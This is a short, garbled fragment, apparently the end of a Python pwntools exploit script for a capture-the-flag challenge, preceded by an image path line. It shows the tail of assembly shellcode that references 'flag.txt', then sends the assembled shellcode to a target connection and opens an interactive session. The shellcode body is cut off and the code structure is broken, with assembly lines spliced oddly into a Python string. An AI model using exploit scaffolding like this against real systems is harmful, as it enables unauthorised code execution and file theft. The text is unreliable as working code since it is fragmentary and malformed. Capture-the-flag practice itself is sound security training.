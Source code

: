 ```python
x1:
.ascii "flag.txt"
.byte 0
"""
r.sendline(asm(shellcode))
r.interactive()
if  __name__  ==  "__main__":

main()
```